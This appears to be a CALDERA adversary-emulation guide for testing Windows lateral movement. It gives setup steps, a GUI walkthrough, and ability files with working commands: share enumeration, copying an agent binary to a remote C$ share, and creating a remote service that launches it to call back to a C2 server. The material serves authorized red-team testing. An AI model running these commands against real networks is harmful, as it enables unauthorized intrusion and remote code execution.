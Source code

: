 # Windows Lateral Movement Guide

Exercising Caldera's lateral movement and remote execution abilities allows you to test how easily an adversary can move
within your network. This guide will walk you through some of the necessary setup steps to get started with testing 
lateral movement in a Windows environment.

## Setup

### Firewall Exceptions and Enabling File and Printer Sharing

The firewall of the target host should not be blocking UDP ports 137 and 138 and TCP ports 139 and 445. The firewall
should also allow inbound file and printer sharing.

```
netsh advfirewall firewall set rule group="File and Printer Sharing" new enable=Yes
```

### User with Administrative Privileges

This guide will assume a user *with administrative privileges to the target host* has been compromised and that a CALDERA
agent has been spawned with this user's privileges. Some methods of lateral movement may depend on whether (1) the user 
has administrative privileges but is not a domain account or (2) the user has administrative privileges and is a domain 
account. The example walkthrough in this guide should not be impacted by these distinctions.

### Additional Considerations

1. Ensure GPO/SRP or antivirus is not blocking remote access to shares.
2. Ensure at least ADMIN$, C$, and IPC$ shares exist on the target host.

## Lateral Movement Using CALDERA
Lateral movement can be a combination of two steps. The first requires confirmation of remote access to the next target 
host and the movement or upload of the remote access tool (RAT) executable to the host. The second part requires 
*execution* of the binary, which upon callback of the RAT on the new host would complete the lateral movement.

Most of CALDERA's lateral movement and execution abilities found in Stockpile have fact or relationship requirements 
that must be satisfied. This information may be passed to the operation in two ways:
1. The fact and relationship information may be added to an operation's source. A new source can be created or this
information can be added to an already existing source as long as that source is used by the operation. When configuring
an operation, open the "**AUTONOMOUS**" drop down section and select "Use [insert source name] facts" to indicate to the 
operation that it should take in fact and relationship information from the selected source.
2. The fact and relationship information can be discovered by an operation. This requires additional abilities to be run
prior to the lateral movement and execution abilities to collect the necessary fact and relationship information 
necessary to satisfy the ability requirements.

### Moving the Binary
There are several ways a binary can be moved or uploaded from one host to another. Some example methods used in 
CALDERA's lateral movement abilities include:
1. WinRM
2. SCP
3. wmic
4. SMB
5. psexec
 
Based on the tool used, additional permissions may need to be changed in order for users to conduct these actions 
remotely.

### Execution of the Binary
CALDERA's Stockpile execution abilities relevant to lateral movement mainly use wmic to remotely start the binary. Some 
additional execution methods include modifications to Windows services and scheduled tasks. The example in this guide 
will use the creation of a service to remotely start the binary (ability file included at the end of this guide).

See ATT&CK's [Execution](https://attack.mitre.org/tactics/TA0002/) tactic page for more details on execution methods.

### Displaying Lateral Movement in Debrief
Using the adversary profile in this guide and CALDERA's Debrief plugin, you can view the path an adversary took through 
the network via lateral movement attempts. In the Debrief modal, select the operation where lateral movement was 
attempted then select the Attack Path view from the upper right hand corner of graph views. This graph displays the 
originating C2 server and agent nodes connected by the execution command linking the originating agent to the newly
spawned agent.

In the example attack path graph below, the Service Creation Lateral Movement adversary profile was run on the `win10` 
host, which moved laterally to the `VAGRANTDC` machine via successful execution of the Service Creation ability.

![Debrief Attack Path Example](/img/debrief_attack_path.png)    

This capability relies on the `origin_link_id` field to be populated within the agent profile upon first
check-in and is currently implemented for the default agent, Sandcat. For more information about the `#{origin_link_id}`
global variable, see the explanation of **Command** in the [Ability](Basic-Usage.md#abilities)
section of the Basic Usage guide. For more information about how lateral movement tracking is implemented 
in agents to be used with CALDERA, see the [Lateral Movement Tracking](How-to-Build-Agents.md#lateral-movement-tracking) 
section of the How to Build Agents guide.


## Example Lateral Movement Profile
This section will walkthrough the necessary steps for proper execution of the Service Creation Lateral Movement
adversary profile. This section will assume successful setup from the previous sections mentioned in this guide and that
a Sandcat agent has been spawned with administrative privileges to the remote target host. The full ability files used 
in this adversary profile are included at the end of this guide.

1. Go to `navigate` pane > `Advanced` > `sources`. This should open a new sources modal in the web GUI.
2. Click the toggle to create a new source. Enter "SC Source" as the source name. Then enter `remote.host.fqdn` as the 
fact name and the FQDN of the target host you are looking to move laterally to as the fact value. Click `Save` once 
source configuration has been completed.
3. Go to `navigate` pane > `Campaigns` > `operations`. Click the toggle to create a new operation. Under 
`BASIC OPTIONS` select the group with the relevant agent and the Service Creation Lateral Movement profile. Under 
`AUTONOMOUS`, select `Use SC Source facts`. If the source created from the previous step is not available in the 
drop down, try refreshing the page. 
4. Once operation configurations have been completed, click `Start` to start the operation.
5. Check the agents list for a new agent on the target host.

### Ability Files Used
```
- id: deeac480-5c2a-42b5-90bb-41675ee53c7e
  name: View remote shares
  description: View the shares of a remote host
  tactic: discovery
  technique:
    attack_id: T1135
    name: Network Share Discovery
  platforms:
    windows:
      psh:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
      cmd:
        command: net view \\#{remote.host.fqdn} /all
        parsers:
          plugins.stockpile.app.parsers.net_view:
          - source: remote.host.fqdn
            edge: has_share
            target: remote.host.share
```

```
- id: 65048ec1-f7ca-49d3-9410-10813e472b30
  name: Copy Sandcat (SMB)
  description: Copy Sandcat to remote host (SMB)
  tactic: lateral-movement
  technique:
    attack_id: T1021.002
    name: "Remote Services: SMB/Windows Admin Shares"
  platforms:
    windows:
      psh:
        command: |
          $path = "sandcat.go-windows";
          $drive = "\\#{remote.host.fqdn}\C$";
          Copy-Item -v -Path $path -Destination $drive"\Users\Public\s4ndc4t.exe";
        cleanup: |
          $drive = "\\#{remote.host.fqdn}\C$";
          Remove-Item -Path $drive"\Users\Public\s4ndc4t.exe" -Force;
        parsers:
          plugins.stockpile.app.parsers.54ndc47_remote_copy:
          - source: remote.host.fqdn
            edge: has_54ndc47_copy
        payloads:
        - sandcat.go-windows
  requirements:
  - plugins.stockpile.app.requirements.not_exists:
    - source: remote.host.fqdn
      edge: has_54ndc47_copy
  - plugins.stockpile.app.requirements.basic:
    - source: remote.host.fqdn
      edge: has_share
  - plugins.stockpile.app.requirements.no_backwards_movement:
    - source: remote.host.fqdn
```

```
- id: 95727b87-175c-4a69-8c7a-a5d82746a753
  name: Service Creation
  description: Create a service named "sandsvc" to execute remote Sandcat binary named "s4ndc4t.exe"
  tactic: execution
  technique:
    attack_id: T1569.002
    name: 'System Services: Service Execution'
  platforms:
    windows:
      psh:
        timeout: 300
        cleanup: |
          sc.exe \\#{remote.host.fqdn} stop sandsvc;
          sc.exe \\#{remote.host.fqdn} delete sandsvc /f;
          taskkill /s \\#{remote.host.fqdn} /FI "Imagename eq s4ndc4t.exe"
        command: |
          sc.exe \\#{remote.host.fqdn} create sandsvc start= demand error= ignore binpath= "cmd /c start C:\Users\Public\s4ndc4t.exe -server #{server} -v -originLinkID #{origin_link_id}" displayname= "Sandcat Execution";
          sc.exe \\#{remote.host.fqdn} start sandsvc;
          Start-Sleep -s 15;
          Get-Process -ComputerName #{remote.host.fqdn} s4ndc4t;
```

